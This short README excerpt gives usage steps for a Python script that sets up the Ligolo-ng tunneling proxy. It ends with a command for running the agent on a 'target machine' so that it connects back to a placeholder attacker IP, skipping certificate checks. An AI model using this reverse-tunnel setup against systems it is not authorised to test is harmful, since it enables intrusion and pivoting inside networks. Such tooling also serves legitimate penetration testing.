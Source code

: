 Usage Instructions:

Save the Script: Save the script to a file, for example, ligolo_setup.py.

Make the Script Executable: Run chmod +x ligolo_setup.py to make the script executable.

Execute the Script: Run the script with the required arguments:

./ligolo_setup.py --proxy-path /path/to/proxy --listen-address 0.0.0.0:11601 --interface-name ligolo

Deploy the Agent: On the target machine, download the appropriate Ligolo-ng agent binary and run it using the command provided by the script:

./agent -connect <attacker_ip>:11601 -ignore-cert
Replace <attacker_ip> with the IP address of your attack machine
